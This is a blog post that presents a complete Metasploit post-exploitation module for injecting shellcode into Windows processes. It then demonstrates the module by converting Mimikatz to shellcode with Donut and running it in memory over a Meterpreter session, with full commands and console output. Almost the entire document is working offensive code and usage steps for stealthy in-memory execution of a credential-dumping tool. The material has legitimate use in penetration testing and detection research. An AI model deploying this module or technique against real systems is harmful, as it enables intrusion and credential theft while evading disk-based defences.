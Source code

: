 ```yaml
---
layout: default
---
```


_**Oct 3, 2019**_

## Meterpreter + Donut = Reflectively and Interactively Executing Arbitrary Executables via Shellcode Injection

I played a bit with the awesome [Donut](https://github.com/TheWover/donut) project, ending up writing a module for executing arbitrary shellcode within Meterpreter aka executing Mimikatz in-memory, reflectively and interactively! 🐱‍👤

## Motivation

[Donut](https://github.com/TheWover/donut) enables us to execute arbitrary .NET assembly, EXE, DLL, VBS, JS or XSL in-memory via Position Indipendent Code generation. Since I wrote in the past [the module for the Juicy variant of *Potato exploit](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_075_reflection_juicy.rb), I knew that Metasploit offers some nice APIs to inject and run arbitrary shellcode, so I decided to write a module for arbitrary shellcode execution. I will demo it by popping an interactive, memory-only instance of Mimikatz!

## Source Code

This is the source code of the module. A [Pull Request](https://github.com/rapid7/metasploit-framework/pull/12391) was already opened to add it to the main repository.

Here it is a copy of the source code:

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core/post/common'
require 'msf/core/post/windows/reflective_dll_injection'

class MetasploitModule < Msf::Post
  include Msf::Post::Common
  include Msf::Post::Windows::ReflectiveDLLInjection

  def initialize(info={})
    super( update_info( info,
      'Name'          => 'Windows Manage Memory Shellcode Injection Module',
      'Description'   => %q{
        This module will inject into the memory of a process a specified shellcode.
      },
      'License'       => MSF_LICENSE,
      'Author'        => [ 'phra <https://iwantmore.pizza>' ],
      'Platform'      => [ 'win' ],
      'SessionTypes'  => [ 'meterpreter' ]
    ))

    register_options(
      [
        OptPath.new('SHELLCODE', [true, 'Path to the shellcode to execute']),
        OptInt.new('PID', [false, 'Process Identifier to inject of process to inject the shellcode. (0 = new process)', 0]),
        OptBool.new('CHANNELIZED', [true, 'Retrieve output of the process', true]),
        OptBool.new('INTERACTIVE', [true, 'Interact with the process', true]),
        OptBool.new('HIDDEN', [true, 'Spawn an hidden process', true]),
        OptEnum.new('BITS', [true, 'Set architecture bits', '64', ['32', '64']])
      ])
  end

  # Run Method for when run command is issued
  def run

    # syinfo is only on meterpreter sessions
    print_status("Running module against #{sysinfo['Computer']}") if not sysinfo.nil?

    # Set variables
    shellcode = IO.read(datastore['SHELLCODE'])
    pid = datastore['PID']
    bits = datastore['BITS']
    p = nil
    if bits == '64'
      bits = ARCH_X64
    else
      bits = ARCH_X86
    end

    if pid == 0 or not has_pid?(pid)
      p = create_temp_proc(bits)
      print_status("Spawned process #{p.pid}")
    else
      print_status("Opening process #{p.pid}")
      p = client.sys.process.open(pid.to_i, PROCESS_ALL_ACCESS)
    end

    if bits == ARCH_X64 and client.arch == ARCH_X86
      print_error("You are trying to inject to a x64 process from a x86 version of Meterpreter.")
      print_error("Migrate to an x64 process and try again.")
      return false
    elsif arch_check(bits, p.pid)
      inject(shellcode, p)
    end
  end

  # Checks the Architeture of a Payload and PID are compatible
  # Returns true if they are false if they are not
  def arch_check(bits, pid)
    # get the pid arch
    client.sys.process.processes.each do |p|
      # Check Payload Arch
      if pid == p["pid"]
        print_status("Process found checking Architecture")
        if bits == p['arch']
          print_good("Process is the same architecture as the payload")
          return true
        else
          print_error("The PID #{ p['arch']} and Payload #{bits} architectures are different.")
          return false
        end
      end
    end
  end

  # Creates a temp notepad.exe to inject payload in to given the payload
  # Returns process PID
  def create_temp_proc(bits)
    windir = client.sys.config.getenv('windir')
    # Select path of executable to run depending the architecture
    if bits == ARCH_X86 and client.arch == ARCH_X86
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X64
      cmd = "#{windir}\\System32\\notepad.exe"
    elsif bits == ARCH_X64 and client.arch == ARCH_X86
      cmd = "#{windir}\\Sysnative\\notepad.exe"
    elsif bits == ARCH_X86 and client.arch == ARCH_X64
      cmd = "#{windir}\\SysWOW64\\notepad.exe"
    end

    proc = client.sys.process.execute(cmd, nil, {
      'Hidden' => datastore['HIDDEN'],
      'Channelized' => datastore['CHANNELIZED'],
      'Interactive' => datastore['INTERACTIVE']
    })

    return proc
  end

  def inject(shellcode, p)
    print_status("Injecting shellcode into process ID #{p.pid}")
    begin
      print_status("Allocating memory in process #{p.pid}")
      mem = inject_into_process(p, shellcode)
      print_status("Allocated memory at address #{"0x%.8x" % mem}, for #{shellcode.length} byte shellcode")
      p.thread.create(mem, 0)
      print_good("Successfully injected payload into process: #{p.pid}")

      if datastore['INTERACTIVE'] && datastore['CHANNELIZED'] && datastore['PID'] == 0
        print_status("Interacting")
        client.console.interact_with_channel(p.channel)
      elsif datastore['CHANNELIZED']
        print_status("Retrieving output")
        data = p.channel.read
        print_line(data) if data
      end
    rescue ::Exception => e
      print_error("Failed to inject Payload to #{p.pid}!")
      print_error(e.to_s)
    end
  end
end
```

## Demo

We want to reflectively and interactively execute Mimikatz on the target system. Let's generate the shellcode with [Donut](https://github.com/TheWover/donut):

```text
$ donut -f /tmp/mimikatz.exe -a 2 -o /tmp/payload.bin

  [ Donut shellcode generator v0.9.2
  [ Copyright (c) 2019 TheWover, Odzhan

  [ Instance type : PIC
  [ Module file   : "/tmp/mimikatz.exe"
  [ File type     : EXE
  [ Target CPU    : AMD64
  [ AMSI/WDLP     : continue
  [ Shellcode     : "/tmp/payload.bin"
```

Now let's move to Metasploit, spawn a Meterpreter on the target machine and proceed to use the module in the following way:

```text
msf5 post(windows/manage/shellcode_inject) > use post/windows/manage/shellcode_inject
msf5 post(windows/manage/shellcode_inject) > set SHELLCODE /tmp/payload.bin
msf5 post(windows/manage/shellcode_inject) > set SESSION 1
msf5 post(windows/manage/shellcode_inject) > run


[*] Running module against MSEDGEWIN10
[*] Spawned process 6988
[*] Process found checking Architecture
[+] Process is the same architecture as the payload
[*] Injecting shellcode into process ID 6988
[*] Allocating memory in process 6988
[*] Allocated memory at address 0x1bc0ec60000, for 1044960 byte shellcode
[+] Successfully injected payload in to process: 6988
[*] Interacting

  .#####.   mimikatz 2.2.0 (x64) #18362 Aug 14 2019 01:31:47
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz # exit
Bye!
[*] Post module execution completed
```

It works, awesome! 🚀

![demo](../assets/images/shellcode_inject.jpg "Demo")

[back](../)
